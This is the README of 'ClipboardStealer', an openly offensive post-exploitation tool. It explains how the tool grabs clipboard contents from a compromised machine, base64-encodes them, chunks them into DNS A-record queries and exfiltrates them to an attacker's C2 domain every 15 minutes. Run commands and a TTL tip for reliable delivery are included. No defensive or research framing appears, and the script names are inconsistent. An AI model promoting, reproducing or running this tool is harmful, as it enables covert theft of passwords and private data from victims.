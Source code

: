 # ClipboardStealer

Clipboard can contain everything from passwords to possible critical data. 
This tool is quite simple, light, and it does only one thing (so far) that is stealing whatever a compromised machine has on clipboard. it can be used post exploitation for Windows,macOS, or Linux machines
It periodically captures the contents of the clipboard, encodes the data into a DNS payload, and sends it as a DNS query -type A- to your C2 server. 

## Prerequisites

You can install ClipboardStealer python requirements via:

`pip3 install -r requirements.txt`

Or you can directly use clipboardHost.exe if you're targeting Windows environment

## How does it work

The code pastes whatever is in the clipboard, encodes it, splits it into small chunks and packs it in DNS record -type A- which will eventually land in your C2. Here's a breakdown of the flow:

- Clipboard contents are encoded to base64
- Encoded data is then broken into small chunks
- Each chunk is packed into a DNS query. Here's an example

![img_1.png](img_1.png)

Now this query will be sent to any DNS server (I am using `8.8.8.8` in client.py) which in turn will send request to your c2 domain `shahin.com` 

- On your C2, query will be split and qname (payload) will be decoded and re-assembled which will eventually save stolen clipboard data in a file 
![img_2.png](img_2.png)

This happens every 15 minutes, it only sends data if the content is different from last time it was sent


## Usage

1. Install the required dependencies as mentioned in prerequisites

2. Run the program by executing the `client.py` script:
`python clipboard_sender.py 'example.com'`

Where: 
- example.com: Your C2 domain address

3. If you are using the .exe you can run it by running the following command:
`clipboardhost.exe example.com`

5. Now you're all set! it will continuously monitor the clipboard for changes and send the data in the clipboard to the C2 server every 15 minutes (Depending on the frequency the user updates his clipboard)

## Important Note

Set caching time on your DNS server (TTL) to less than the frequency of this tool (in our case 15 minutes) this will make sure that requests arrive fully to your domain server (C2) 